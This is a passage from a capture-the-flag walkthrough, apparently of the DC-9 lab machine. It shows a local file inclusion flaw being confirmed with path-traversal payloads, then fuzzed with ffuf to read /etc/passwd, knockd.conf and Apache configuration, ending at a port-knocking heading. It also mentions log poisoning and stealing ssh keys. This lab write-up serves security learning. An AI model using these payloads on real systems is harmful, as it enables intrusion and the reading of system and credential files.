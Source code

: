 testing it in burp :

![LFI](/assets/images/dc9/lfi.png)

when i found an LFI like this i try to achieve RCE through different routes like log poisoning or getting ssh keys ...

But the first thing is how we can verify if this is an LFI (ready for code execution) versus a directory traversal , the technique is :

if we can include the index.php using the payload : ../../../../../../../../../../var/www/html/index.php and see it in the page or we see that the page is executing some code and taking its time , this may be indicative of a Local File Inculsion happening 

in our situation by using this payload "../../../../../../../../../../var/www/html/welcome.php" the page took some time to load , so it's a Local File Inclusion 

### Fuzzing with LFI Payloads :

using this wordlist :
```bash
https://raw.githubusercontent.com/whiteknight7/wordlist/788e2caab19bce61609284e00e85ab21ce568482/linux_LFI.txt
``` 

i run ffuf command : 

```bash
ffuf -u http://192.168.1.22/welcome.php\?file\=../../../../../../../../FUZZ -w /opt/lfi-linux.txt -H "Cookie: PHPSESSID=thsl8i2b9hagdef51shk183b67" -mc 301,302,200 -fl 43

../../../etc/passwd     [Status: 200, Size: 3316, Words: 71, Lines: 86, Duration: 178ms]
/etc/knockd.conf        [Status: 200, Size: 1292, Words: 97, Lines: 58, Duration: 181ms]
/etc/apache2/apache2.conf [Status: 200, Size: 8187, Words: 982, Lines: 270, Duration: 108ms]
/etc/apache2/sites-enabled/000-default.conf [Status: 200, Size: 2295, Words: 212, Lines: 74, Duration: 115ms]

```
## Port knocking 
